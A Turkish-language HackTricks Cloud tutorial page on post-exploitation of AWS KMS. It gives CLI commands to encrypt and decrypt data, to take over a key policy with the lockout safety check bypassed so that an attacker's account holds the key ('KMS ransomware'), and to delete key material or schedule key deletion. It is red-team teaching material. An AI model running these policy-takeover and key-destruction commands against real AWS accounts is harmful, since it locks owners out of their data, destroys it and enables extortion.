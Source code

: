 # AWS - KMS Post Exploitation

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## KMS

Daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Bilgileri Şifrele/Şifre Çöz

{% hint style="success" %}
Bir dosya içindeki verileri şifre çözmek istiyorsanız, dosyanın ikili verileri içermesi gerektiğini, base64 kodlu verileri değil, unutmayın.
{% endhint %}

* **simetrik** bir anahtar kullanarak
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* **Asimetrik** bir anahtar kullanma:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS Ransomware

KMS üzerinde ayrıcalıklı erişime sahip bir saldırgan, anahtarların KMS politikasını değiştirebilir ve **kendi hesabına erişim verebilir**, meşru hesaba verilen erişimi kaldırarak.

Böylece, meşru hesap kullanıcıları bu anahtarlarla şifrelenmiş herhangi bir hizmetin bilgilerine erişemeyecek, bu da hesap üzerinde kolay ama etkili bir fidye yazılımı oluşturacaktır.

{% hint style="warning" %}
**AWS yönetilen anahtarların** bu saldırıdan etkilenmediğini unutmayın, yalnızca **Müşteri yönetilen anahtarlar** etkilenmektedir.

Ayrıca, **`--bypass-policy-lockout-safety-check`** parametresinin kullanılma gereğini unutmayın (bu seçeneğin web konsolunda olmaması, bu saldırının yalnızca CLI üzerinden mümkün olmasını sağlar).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
Not edin ki, eğer bu politikayı değiştirir ve yalnızca bir dış hesaba erişim verirseniz, ardından bu dış hesaptan **erişimi orijinal hesaba geri vermek için yeni bir politika ayarlamaya çalışırsanız, bunu yapamazsınız**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

### Genel KMS Fidye Yazılımı

#### Küresel KMS Fidye Yazılımı

Küresel KMS Fidye Yazılımı gerçekleştirmek için başka bir yol vardır, bu aşağıdaki adımları içerecektir:

* Saldırgan tarafından içe aktarılan **anahtar materyali ile yeni bir anahtar oluşturun**
* Önceki sürümle şifrelenmiş **eski verileri yeni anahtar ile yeniden şifreleyin**.
* **KMS anahtarını silin**
* Artık yalnızca orijinal anahtar materyaline sahip olan saldırgan, şifrelenmiş verileri çözebilir.

### Anahtarları Yok Et
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
AWS'nin artık **önceki eylemlerin bir çapraz hesap üzerinden gerçekleştirilmesini engellediğini** unutmayın:
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
